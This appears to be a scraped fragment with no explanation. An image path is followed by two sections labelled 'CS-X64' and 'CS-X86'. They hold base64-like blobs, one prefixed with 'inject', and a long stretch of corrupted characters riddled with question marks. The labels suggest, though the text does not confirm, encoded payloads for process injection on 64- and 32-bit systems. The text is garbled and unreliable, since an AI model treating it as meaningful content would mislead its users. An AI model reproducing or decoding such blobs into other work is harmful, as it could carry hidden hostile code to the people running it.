 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86



wefsx34|?2,z;???6??,Q???;????10????,????o??;??1?4??,h????;????18,O;????22,????G;????26,7;????30????,?W;3???4??,??7;38?,m;???4??2,??D????;46??,??K?;5????0,v;?54?,????G;?58???,????W;62,????c;66????,H;7?0,f;7?4????,T;??7????8,%???;??82,i????;86,f?;9????0,.?;94,g???;98,???z;????102,????,;1??06???,l???;110,??m;1??14,1?;11??8????,?A;??122,??0;126????,R;13??0,d;1??3???4,d;|??sydz??vGs????QB?1AotE?EhrT????vO8???OIGG???7y7???ZsF???Wr4b7????v7Jm?abUDd????k7??Kk?U.?vT???OIG????it??AW???hGnc9??4ZH4????fRfa???b4Tn2???G????%2??A????Zi8?OEfG????t8.br??GgjA??mz87????k,a1????ylZ95????ms8???11Ua??2AV?@U0tF???iR???rW???dd??v7???jd=.erger

rthtFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuFRQ==op;ot

